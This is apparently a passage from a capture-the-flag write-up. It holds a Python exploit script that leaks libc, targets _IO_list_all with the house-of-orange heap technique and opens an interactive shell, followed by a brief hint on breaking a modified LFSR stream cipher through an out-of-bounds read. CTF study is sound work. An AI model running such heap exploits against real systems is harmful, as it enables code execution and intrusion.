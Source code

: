 ```python
def hack():
    base = 0x0000555555554000
    echo(0x38,'A'*8)
    echo(0x28,'A'*8)
    echo(0x48,'A'*8)
    echo(0x7f,'A'*8)
    k=echo(0x28,'A'*8)
    leak_value =u64(k[8:16])
    print (hex(leak_value))
    libc_base=leak_value-0x3c4b78
    print 'libc_base:', hex(libc_base)
    size = libc_base&0xfff000-0x1000
    io_list_all = libc.symbols['_IO_list_all']+libc_base
    print 'IO_list_all:', hex(io_list_all)
    pading = ((io_list_all&0xff)+0x10)*'a'

    if (io_list_all&0xffffffffff000000) != (libc_base&0xffffffffff000000):
        print('fail, try again')
        return
    echo(size, pading+house_of_orange(libc, libc_base))

    if size < 0x200000:
        echo(size, pading+house_of_orange(libc, libc_base))

    echo(0x90,'A'*8)
    echo(0x28,'A'*8)
    echo(0x90,'A'*8)
    p.sendline(str(io_list_all+2))
    sleep(1)
    p.sendline(str(io_list_all+3))
    sleep(1)
    print 'io_list_all:', hex(io_list_all)

    p.clean()
    main_arena = libc_base + 0x3c4b20

    p.sendline(str(main_arena+0x70+1)) #unsort bin
    sleep(1)
    p.sendline(str(main_arena+0x70+1)) #unsort bin
    p.interactive()

p = process(pc)
hack()

```

### myheart

Firstly, you need to reverse the binary, and you can find this is a stream cipher. It's similar to toyocrypto, which can be attacked by the algebraic attack. There is an easy OOB-read vulnerability to leak the plaintext. You can xor the plaintext and the ciphertext to get the lfsr's output. From an option, you can get enough output to finish the algebraic attack. But it's important to note that, we modified the S10*S23*S32*S42 to S11*S22*S33*S53. So the new annihilation is needed.
